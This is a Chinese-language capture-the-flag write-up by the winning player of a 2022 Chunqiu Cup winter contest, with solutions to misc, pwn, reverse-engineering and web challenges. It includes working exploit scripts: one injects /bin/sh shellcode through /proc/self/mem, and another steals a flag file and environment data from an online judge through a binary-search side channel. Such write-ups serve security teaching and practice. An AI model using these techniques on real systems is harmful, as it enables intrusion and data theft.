




# 2022年春秋杯网络安全联赛-冬季赛-WP
`By Frankss`  
`Rank: 1`  
`Solved: 10`

- [2022年春秋杯网络安全联赛-冬季赛-WP](#2022年春秋杯网络安全联赛-冬季赛-wp)
  - [Misc \[AK\]](#misc-ak)
    - [reindeer game](#reindeer-game)
    - [楠之勇者传](#楠之勇者传)
    - [问卷](#问卷)
    - [nan's analysis](#nans-analysis)
  - [PWN](#pwn)
    - [work\_pwn](#work_pwn)
    - [online\_judge](#online_judge)
  - [RE \[AK\]](#re-ak)
    - [godeep](#godeep)
    - [easy\_python \[三血\]](#easy_python-三血)
    - [baby\_transform \[三血\]](#baby_transform-三血)
  - [Web](#web)
    - [ezphp](#ezphp)

非常幸运地摸了一个炫酷的名次，诚惶诚恐  
  


## Misc [AK]

### reindeer game
pyinstaller解包，直接调pyc里生成flag的函数：
  

### 楠之勇者传
轻松拿到魔法棒，然后按提示去 `/proc/self/mem` 找地方写sc  
自己开了个环境看一下nobody跑的python36居然是没随机化地址的，然后本地偏移通了远程不过（版本是一样的）  
于是远程先按`0x1000`加偏移，卡死了就逐byte加，然后就成功执行到了shellcode  
```python
from pwn import *

for off in range(3, 0x100):
    p = remote("39.106.48.123", 28287)
    context.log_level = 'debug'
    p.sendline(b"1")
    p.sendlineafter(b">> ", b"1")
    for _ in range(10):
        p.sendlineafter(b">> ", b"4")
        p.sendlineafter(b"Enter", b"")
    p.sendlineafter(b">> ", b"3")
    p.sendlineafter(b">> ", b"1")
    p.sendline(b"a")
    p.sendlineafter(b"Enter", b"")
    p.sendlineafter(b">> ", b"2")
    p.sendlineafter(b">> ", b"1")
    p.sendline(b"../proc/self/mem")
    p.sendline(str(0x5b9a10+off).encode())
    p.sendline(base64.b64encode(b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'))
    p.interactive()
```

### 问卷
问卷

### nan's analysis
图片..没什么用  
压缩包，有密码，但其实就是删了root密码的shell，带回车..也没什么用   
唯一有用的是FTP的密码，是AES的key  
iv猜了好久，最后用UTF8的16个0搞出来看起来很对的字符，但长度不对  
然后用0504重复4次做IV得到了正确的root密码   
  

shell的位置ls -la对比几下就找到了  
  

## PWN
### work_pwn
有一秒钟的时间等待线程，在一秒之内改全局变量就行了  
```python
from pwn import *

p = remote("39.105.171.73", 18791)

context.log_level = 'debug'
p.sendlineafter(b">>>", b"3")
p.sendlineafter(b"###", b"1")
p.sendlineafter(b">>>", b"1")
p.sendlineafter(b"///", b"1")
p.sendlineafter(b" :", b"/flag")
p.sendlineafter(b"Leaving a message :", b"1")
while True:
    p.recv()
```

### online_judge
没有执行权限，文件系统只读  
二分可以偷东西出来（AC, WA)  
一开始不知道`/flag`是目录，痛失一血  
打了一堆东西出来，甚至把环境变量都偷了出来  
```python
import os
import sys
import requests

host, port = '47.104.129.38', 10101
base_url = f'http://{host}:{port}'
token_url = f'{base_url}/getToken'
judge_url = f'{base_url}/judge'


def getToken():
    result = requests.post(token_url).json()
    assert not result['error'], "System error"
    return result['data']['token']


token = getToken()


def judge(chall: str, src: str, language: str = 'C'):
    data = {
        'src': src,
        'language': language,
        'action': chall,
        'token': token,
    }
    result = requests.post(judge_url, json=data).json()
    return 'SUCCESS' in result['data']


l = ['etc', 'usr', 'sbin', 'lib64', 'home', 'dev', 'boot', 'root', 'sys', 'proc', 'opt', 'mnt', 'var', 'srv', 'lib',
     'run', 'media', 'bin', 'tmp', 'test_case', 'flag', 'log', 'judger', '.dockerenv', 'code']
k = ['unbuffer.so', '__init__.py', 'compiler.py', 'unbuffer.c', '.python-version', 'utils.py', 'entry']
p = ['compile.log', 'gunicorn.log', 'judge_server.log', 'judger.log']
o = 'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin PYTHONIOENCODING=UTF-8 LANG=en_US.UTF-8 LANGUAGE=en_US:en LC_ALL=en_US.UTF-8'
u = '/usr/bin/python3 /judger/run/165\SVAbYV734P3=\A14VQ6]P7CH47MW/__pycache__/solution.cpython-36.pyc'
flag = """'"""

for i in range(len(flag) - 1, 500):
    min = 32
    max = 128
    while 1:
        j = min + (max - min) // 2
        if min == j:
            flag += chr(j)
            print(flag)
            break
        res = judge('test', f"""import os
a,b = map(int,input().split(' '))
r=open("/flag/flag").read()
if ord(r[{i}])<{j}:
    print(a+b)
else:
    print(a+b+1)
""", 'PYTHON')
        if res:
            max = j
        else:
            min = j
```

## RE [AK]
### godeep 
自动化逆向现在大家都会了（好多解）  
这里命名是`IDA7.7`自动改的，7.7比7.5对go的支持好了很多  
`'godeep_tree.VSWEwsr'`是`right`输出的函数  
`'godeep_tree.ApSzXJOjiFA'`是main里开始的函数  
按if的内容01一下，然后把01串反过来就是flag    
```python
name = 'godeep_tree.VSWEwsr'
r=""
while name != 'godeep_tree.ApSzXJOjiFA':
    print(name, end = ", ")
    func = idaapi.get_func(get_name_ea_simple(name)) 
    ea = func.start_ea
    ref = CodeRefsTo(ea, 1)
    fun = next(ref)
    code = str(idaapi.decompile(fun))
    a, b = code.split('else')
    if name.split(".")[-1] in a:
        r+="1"
    else:
        assert name.split(".")[-1] in b
        r+="0"
    name = re.findall("void __fastcall (.*?)\(",code)[0]
    name = 'godeep_tree.' + name.split("_")[-1]

print(name, end = ", ")
print()
print(bytes.fromhex(hex(eval("0B"+r[::-1]))[2:]))
```

### easy_python [三血]
正向还原字节码  
```python
r = [204, 141, 44, 236, 111, 140, 140, 76, 44, 172, 7, 7, 39, 165, 70, 7, 39, 166, 165, 134, 134, 140, 204, 165, 7, 39,
     230, 140, 165, 70, 44, 172, 102, 6, 140, 204, 230, 230, 76, 198, 38, 175]

for i in r:
    c = i >> 5
    d = i << 3
    print(chr((c | d) & 0x7f), end='')
```

### baby_transform [三血]
鉴定为傅里叶变换，逆变换是：  
  

欧拉欧拉欧拉 $e^{(jx)}=cosx+jsinx$ 结束
```c
#include<cstdio>
#include<vector>
#include<iostream>
using namespace std;


int  main() {
    FILE* stream = fopen("flag.enc", "rb");
    char* flag = (char*)"flag{aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa}";
    double* res = (double*)malloc(16 * 160);
    double* ak = (double*)malloc(16 * 160);
    fread(res, 1uLL, 16 * 42, stream);
    for (int i = 0; i < 42; ++i) {
        double x = 0.0, y = 0.0;
        for (int j = 0; j < 42; j++) {
            x += flag[j] * cos(j * (-6.283185307179586 * i) / 42);
            y += flag[j] * sin(j * (-6.283185307179586 * i) / 42);
        }
        //res[2 * i] = y;
       // res[2 * i + 1] = x;
        ak[i] = (res[2 * i + 1] - res[2 * i]) / 42;
    }

    for (int i = 0; i < 42; ++i) {
        double x = 0.0, y = 0.0;
        for (int j = 0; j < 42; j++) {
            x += ak[j] * cos(j * (-6.283185307179586 * i) / 42);
            y += ak[j] * sin(j * (-6.283185307179586 * i) / 42);
        }
        cout << (x + y) << " ";
    }
}
```

## Web
### ezphp
我不知道php8有什么魔法特性，但我知道 $3 * 37 = 111$   
然后传个 `?num=3*37` 就..过了  
一开始想到`0x`然后0被墙了，然后想逻辑拼接，`===`后接个`|2`什么的，然后就想到位运算，但是位运算长度不太够，然后去factordb找乘法找到3*37，回来时候已经3解了，大家秒的都好快  